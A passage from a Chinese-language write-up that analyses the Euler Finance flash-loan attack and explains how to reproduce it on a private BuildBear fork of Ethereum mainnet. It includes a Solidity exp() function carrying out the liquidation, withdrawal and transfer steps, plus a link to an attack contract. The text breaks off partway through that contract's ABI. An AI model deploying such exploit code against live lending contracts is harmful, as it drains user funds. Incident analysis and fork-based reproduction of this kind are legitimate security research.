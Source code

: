 
4.然后调用清算功能，启动清算过程，获得 3.1 亿 dDAI 和 2.5 亿 eDAI。最后，攻击者调用了提现功能，获得了3890万DAI，用于偿还通过闪电贷借入的3000万DAI。他们获利887万。

```js
function exp() public{  
    PROXY.LiquidationOpportunity memory s=PROXY.LiquidationOpportunity({  
    repay:0,  
    yield:0,  
    healthScore:0,  
    baseDiscount:0,  
    discount:0,  
    conversionRate:0  
    });  
    s=proxy.checkLiquidation(address(this),lendcontractAddress,address(dai),address(dai));  
    proxy.liquidate(lendcontractAddress,address(dai),address(dai),s.repay,250000000000000000000000000);  
    edai.withdraw(0,38900000000000000000000000);  
    dai.transfer(address(MainAddress),38900000000000000000000000);  
}
```

### 攻击过程复现

#### 分叉主网模拟

可以在本地模拟测试：[Fork ? the F*ing Ethereum Blockchain! Transfer tokens from Vitalik’s Account ;) | by Pari Tomar | BuildBear Labs | Medium — 分叉 ? F*ing 以太坊区块链！从 Vitalik 的账户转移代币;) |由 Pari Tomar |BuildBear 实验室 |中等](https://medium.com/buildbear/fork-the-f-ing-ethereum-blockchain-transfer-tokens-from-vitaliks-account-46d408f7356c)

本次通过BuildBeer来进行

我们可以通过[Home - BuildBear](https://home.buildbear.io/) 来创建一个从 16817993 分叉以太坊来创建一个私有测试网

[![image-20231112182039302](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-4bbcc60c626fcd1f394bc3a02eb1ac6bae9fafcc.png)](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112182039302.png)

然后通过水龙头获取BB 比如我的水龙头[Faucet - BuildBear](https://faucet.buildbear.io/raspy-sebulba-83393420) 我用1w个BB

#### 部署攻击合约并执行

代码：<https://github.com/BuildBearLabs/Tutorials/blob/main/EulerHack.sol>

在Remix编译并且部署

我的ABI为：

```js
\[  
    {  
        "inputs": \[\],  
        "stateMutability": "nonpayable",  
        "type": "constructor"  
    },  
    {  
        "inputs": \[\],  
        "name": "excuteHack",  
        "outputs": \[\],  
        "stateMutability": "nonpayable",  
        "type": "function"  
    },  
    {  
        "inputs": \[  
            {  
                "internalType": "address\[\]",  
                "name": "assets",  
                "type": "address\[\]"  
```